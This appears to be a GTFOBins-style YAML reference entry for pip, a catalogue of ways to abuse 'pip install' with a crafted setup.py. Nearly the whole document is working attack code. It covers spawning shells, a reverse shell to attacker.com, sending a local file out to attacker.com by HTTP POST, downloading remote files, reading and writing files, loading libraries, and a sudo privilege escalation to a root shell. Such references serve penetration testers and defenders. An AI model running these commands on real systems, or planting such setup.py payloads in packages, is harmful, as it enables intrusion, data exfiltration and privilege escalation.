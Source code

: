 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        pip install $TF
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' > $TF/setup.py
        pip install $TF
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        pip install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        pip install $TF
  download:
    - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])' > $TF/setup.py
        pip install $TF
  file-write:
    - description: It needs an absolute local file path.
      code: |
        TF=$(mktemp -d)
        echo 'open("/tmp/file_to_write","w+").write("DATA")' > $TF/setup.py
        pip install $TF
  file-read:
    - description: The read file content is corrupted as wrapped within an exception error.
      code: |
        TF=$(mktemp -d)
        echo 'raise Exception(open("file_to_read").read())' > $TF/setup.py
        pip install $TF
  load-library:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        pip install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo pip install $TF
---
```

